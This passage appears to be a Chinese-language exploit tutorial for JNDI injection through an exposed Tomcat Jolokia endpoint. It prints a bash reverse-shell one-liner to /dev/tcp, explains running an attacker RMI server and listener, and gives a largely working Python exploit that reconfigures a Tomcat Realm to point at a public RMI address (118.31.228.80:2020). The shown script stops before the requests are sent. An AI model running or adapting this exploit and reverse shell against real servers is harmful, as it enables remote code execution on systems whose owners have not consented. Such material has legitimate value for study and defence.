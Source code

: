 指定的命令是：`reverseShellCommand`

为：

```java
bash -i >& /dev/tcp/127.0.0.1/6666 0>&1				// 即反弹shell
```







### 2. 小结1

总的来说就是:

1. 相当于开启了一个rmi服务器，然后地址就是 我们输入的IP ，以及指定的端口：ip:端口   



2. 然后又指定了一个监听端口，用于下面的反弹shell 所以我们需要监听该端口，来接收反弹回来的shell



然后目前我们是在我们自己的服务器上搭建好了，但是目标还不知道我们的rmi服务器的地址，以及使用的方法

所以我们需要向目标发送我们的服务器地址以及我们使用的方法（即，我们需要执行的exp）





### 3. exp

```python
import requests as req
import sys
from pprint import pprint

url = sys.argv[1] + "/jolokia/" // url：即指定目标
pprint(url)
#创建JNDIRealm // JNDIRealm：访问保存在 LDAP 目录服务器中的验证信息。 简单的来说就是对tomcat进行配置
create_JNDIrealm = {
"mbean": "Tomcat:type=MBeanFactory",
"type": "EXEC",
"operation": "createJNDIRealm",
"arguments": ["Tomcat:type=Engine"]
}
#写入contextFactory
set_contextFactory = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "WRITE",
"attribute": "contextFactory",
"value": "com.sun.jndi.rmi.registry.RegistryContextFactory" //提供注册表的创建以及查找和命名远程对象的类、接口和异常 为了写入我们配置的rmi服务器以及
}
#写入connectionURL为自己公网RMI service地址
set_connectionURL = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "WRITE",
"attribute": "connectionURL",
"value": "rmi://118.31.228.80:2020/ExecByEL" //此时的地址为我们之前在java代码中设置的目标，以及端口，然后调用方法
}
#停止Realm
stop_JNDIrealm = {
"mbean": "Tomcat:realmPath=/realm0,type=Realm",
"type": "EXEC",
"operation": "stop",
"arguments": []
}
#运行Realm，触发JNDI 注入
```